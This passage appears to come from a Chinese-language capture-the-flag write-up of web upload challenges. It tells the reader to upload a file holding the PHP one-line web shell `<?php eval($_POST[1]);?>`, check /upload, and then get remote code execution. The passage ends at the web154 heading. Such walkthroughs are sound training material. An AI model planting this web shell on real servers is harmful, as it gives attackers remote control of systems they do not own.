 再上传一个`1.txt`内容为`<?php eval($_POST[1]);?>`

![image-20250310205748099](assets/image-20250310205748099.png)

回去访问`/upload`发现已经上传成功

![image-20250310205706711](assets/image-20250310205706711.png)

后面就是正常rce了



#### web154

![image-20250310211113012](assets/image-20250310211113012.png)
